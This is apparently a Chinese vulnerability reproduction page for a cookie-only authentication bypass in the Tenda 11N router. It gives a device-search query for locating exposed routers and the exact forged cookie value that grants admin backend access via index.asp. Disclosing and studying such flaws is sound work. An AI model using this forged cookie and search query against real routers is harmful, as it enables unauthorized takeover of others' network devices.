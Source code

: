 # Tenda 11N无线路由器 Cookie 越权访问漏洞

## 漏洞描述

Tenda 11N无线路由器由于只验证Cookie，导致任意用户伪造Cookie即可进入后台

## 漏洞影响

<a-checkbox checked>Tenda 11N无线路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TENDA-11N无线路由器"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1646009335970-22d7f17e-3801-4d3b-bf5a-e7fa2b17749f.png)

添加Cookie, 访问 index.asp 进入后台

```javascript
admin:language=cn
```

![img](../../../.vuepress/public/img/1646009376481-0c885988-16f4-4a01-bd46-5d126a6b9d8d.png)



